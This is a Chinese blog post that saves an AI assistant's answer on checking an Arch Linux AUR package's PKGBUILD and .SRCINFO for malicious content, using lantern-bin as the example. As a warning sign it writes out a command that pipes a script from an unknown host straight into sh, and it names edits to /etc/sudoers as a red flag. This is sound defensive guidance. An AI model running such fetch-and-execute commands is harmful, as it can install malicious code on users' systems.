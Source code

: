 # 安装 AUR 包的注意事项 - TueAug5 2025
豆包真好用（看看以后完全记住了就按自己的理解重写一次）

## 豆包的原始回答
在安装AUR包时检查文件的核心目的是**避免恶意代码、不必要的系统修改或安全风险**，即使只有`PKGBUILD`和`.SRCINFO`，也有明确的检查重点。以下是具体的检查方向（本文以 [lantern-bin](https://aur.archlinux.org/packages/lantern-bin) 为例）：


### 一、先明确两个文件的作用
- `PKGBUILD`：核心脚本，定义了包的**来源、依赖、构建步骤、安装逻辑**等，是检查的重点。
- `.SRCINFO`：由`PKGBUILD`自动生成的元数据（版本、依赖等摘要），主要用于核对与`PKGBUILD`是否一致（防止被篡改）。


### 二、重点检查`PKGBUILD`的关键部分
即使看不懂所有参数，抓住以下核心点即可：

#### 1. 基本信息是否合理
```bash
pkgname=lantern-bin  # 包名是否和你要装的一致
pkgver=6.0.0  # 版本是否是你预期的（比如官网最新版）
pkgrel=1      # 修订号，一般不影响
pkgdesc="..." # 描述是否和软件功能匹配，有没有奇怪的内容
arch=("x86_64")  # 架构是否适合你的系统（比如你是64位就看x86_64）
```


#### 2. 依赖是否“干净”
看`depends`和`makedepends`数组，比如：
```bash
depends=("glibc" "gcc-libs")  # 依赖是否是系统基础库或软件的必要依赖
makedepends=("unzip")         # 构建时需要的工具，是否合理
```
**警惕**：如果依赖里出现你不认识的、非必要的包（比如奇怪的“xxx-monitor”“xxx-collector”），可能有风险。


#### 3. 源代码/二进制来源是否可信
`source`数组定义了软件的下载地址（`lantern-bin`是预编译二进制，所以这里是二进制文件的来源）：
```bash
source=("lantern-${pkgver}.tar.gz::https://github.com/getlantern/lantern/releases/download/v${pkgver}/lantern-linux-amd64-${pkgver}.tar.gz")
```
**检查**：
- 链接是否是官方域名（比如`github.com/getlantern`是 lantern 官方仓库，可信；如果是`xxx未知域名.com`则危险）。
- 是否有奇怪的参数（比如带`&track=xxx`的追踪链接可能没问题，但如果是`http://恶意域名/xxx`则直接放弃）。


#### 4. 校验和是否存在（防止文件被篡改）
`sha256sums`（或`md5sums`）是文件的校验码，用于验证下载的文件是否和作者提供的一致：
```bash
sha256sums=("abc123...")  # 一串哈希值
```
**检查**：
- 不要出现`sha256sums=("SKIP")`（如果有，意味着不校验文件完整性，风险极高）。
- 可以手动去官方下载地址获取校验码，对比是否和这里一致（比如官网 release 页通常会提供）。


#### 5. 安装逻辑是否“规矩”
看`package()`函数（定义软件如何安装到系统）：
```bash
package() {
  # 正常逻辑：复制二进制到/usr/bin，配置文件到/etc等
  install -Dm755 "lantern" "${pkgdir}/usr/bin/lantern"
  install -Dm644 "lantern.desktop" "${pkgdir}/usr/share/applications/lantern.desktop"
}
```
**警惕**：
- 有没有执行奇怪的命令：比如`wget http://未知地址/脚本.sh | sh`（远程执行脚本，可能藏恶意代码）。
- 有没有修改系统关键文件：比如往`/etc/sudoers`、`/etc/passwd`写内容，或者删除`/tmp`以外的系统文件。
- 有没有往非标准目录写文件：正常软件只会安装到`/usr/`、`/opt/`等目录，不会往`/root/`、`/boot/`写东西（特殊软件除外，比如启动项工具，但需要确认必要性）。


#### 6. 其他危险信号
- 有没有`post_install`（安装后脚本）里执行可疑操作（比如添加定时任务、启动未知服务）。
- 有没有隐藏的变量或命令（比如用`eval`、`bash -c`执行拼接的字符串，可能藏恶意代码）。


### 三、.SRCINFO 简单核对
用`cat .SRCINFO`查看，主要核对：
- `pkgver`、`pkgname`是否和`PKGBUILD`一致。
- `depends`列表是否和`PKGBUILD`一致（防止`PKGBUILD`被改但`.SRCINFO`没更新）。


### 总结：新手快速判断原则
1. 来源是否是官方域名（GitHub、GitLab官方仓库、软件官网）。
2. 依赖是否都是常见基础库（比如`glibc`、`qt5`等）。
3. 安装步骤是否只复制文件到标准目录，没有奇怪的脚本执行。
4. 有校验和（不是`SKIP`）。

如果以上都符合，基本可以放心安装；如果有任何一项存疑，建议放弃（或去AUR页面看其他用户评论，是否有人反馈问题）。